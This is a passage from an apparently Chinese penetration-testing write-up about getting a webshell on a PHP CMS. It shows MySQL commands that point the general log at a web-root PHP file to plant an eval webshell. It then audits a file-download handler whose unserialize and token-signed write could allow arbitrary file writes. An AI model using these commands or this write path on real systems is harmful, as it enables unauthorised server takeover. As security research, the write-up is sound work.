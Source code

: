 **第二种方法：**

第二种方法也是和sql执行有关，利用日志文件写shell。

```php
show variables like '%general%';  #查看配置set global general_log = on;  #开启general log模式set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地址select '<?php eval($_POST[cmd]);?>'  #写入shell
```

或者通过慢查询（slow\_query\_log）的方法写shell。但目标系统也是失败，执行sql的时候报错。

还有一些其他的方法，这里测试也是失败的，就不再列举了。

**0x03 代码审计**
-------------

病急乱投医，熬成老中医。既然之前的方法不管用，只好去翻代码吧，找找是否有新的利用方式。翻出之前的一个文档，从里面找到之前的审计过程，看能否对现在有用。结果打开发现只有一个数据包和还有一句未实现的结论。

![图片](https://shs3.b.qianxin.com/butian_public/f7875e9a24031cf39069c235ba54b6765.jpg)

没办法，只好重新围着这个点继续审计，看是否能有所进展。

### 1.分析

打开文件`web/source/cloud/dock.ctrl.php`，找到执行的`download`方法。

![图片](https://shs3.b.qianxin.com/butian_public/f4eabd07d2ef935c2c7d09eeef056343a.jpg)

代码比较简单，我大概说一下这里的流程：

如果请求包非Base64加密的格式，那么`$data`就是请求包的内容。然后对`$data`进行发序列化返回`$ret`，接下来获取`$ret['file']`并Base64解密返回`$file`。当存在`gzcompress`和`gzuncompress`这两个函数时，就会利用`gzuncompress`函数对`$file`进行解压操作。

将获取的`$file`进行md5加密后，与`$ret['path']`以及获取的`$_W['setting']['site']['token']`进行拼接为`$string`。当满足`$_W['setting']['site']['token']`非空并且`$string`md5加密后的结果与`$ret['sign']`一致时，才可以进行下面的操作。下面就是文件的写入了，根据`$ret['path']`进行判断，然后写入的位置不一样。

这里关键的一点就是`$_W['setting']['site']['token']`这个值的获取。这个是利用authcode函数对`cache_load(cache_system_key('cloud_transtoken'))`进行解密获取的。

`authcode`函数位于`framework/function/global.func.php`文件中。

![图片](https://shs3.b.qianxin.com/butian_public/ff2150821948c3e90a6f3ff80ae555418.jpg)

由上面代码可以看出，要想使用`authcode`加解密，需要知道`$GLOBALS['_W']['config']['setting']['authkey']`，在上面提到过，authkey在`data/config.php`文件中。

那么如果想任意写文件，就需要知道`cache_system_key('cloud_transtoken')`的内容了。

### 2.cloud\_transtoken的获取

通过搜索发现，这个值是在文件`framework/model/cloud.mod.php`中的`cloud_build_transtoken`函数中被写入的，通过进入`cache_write`方法，发现会写入数据库中。

![图片](https://shs3.b.qianxin.com/butian_public/fb96f22c77a6d18bce5d6f72aeddb06d9.jpg)
